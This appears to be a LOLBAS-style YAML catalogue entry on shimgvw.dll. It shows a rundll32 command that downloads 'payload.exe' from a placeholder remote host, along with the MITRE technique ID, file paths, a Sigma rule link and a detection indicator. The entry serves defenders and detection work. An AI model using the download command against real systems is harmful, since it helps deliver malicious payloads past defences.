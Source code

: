```yaml
---
Name: Shimgvw.dll
Description: Photo Gallery Viewer
Author: Eral4m
Created: 2021-01-06
Commands:
  - Command: rundll32.exe c:\Windows\System32\shimgvw.dll,ImageView_Fullscreen http://x.x.x.x/payload.exe
    Description: Once executed, rundll32.exe will download the file at the URL in the command to INetCache. Can also be used with entrypoint 'ImageView_FullscreenA'.
    Usecase: Download file from remote location.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Download: INetCache
Full_Path:
  - Path: c:\windows\system32\shimgvw.dll
  - Path: c:\windows\syswow64\shimgvw.dll
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/e1a713d264ac072bb76b5c4e5f41315a015d3f41/rules/windows/process_creation/proc_creation_win_rundll32_susp_activity.yml
  - IOC: Execution of rundll32.exe with 'ImageView_Fullscreen' and a protocol handler ('://') on the command line
Resources:
  - Link: https://twitter.com/eral4m/status/1479080793003671557
Acknowledgement:
  - Person: Eral4m
    Handle: '@eral4m'
---
```

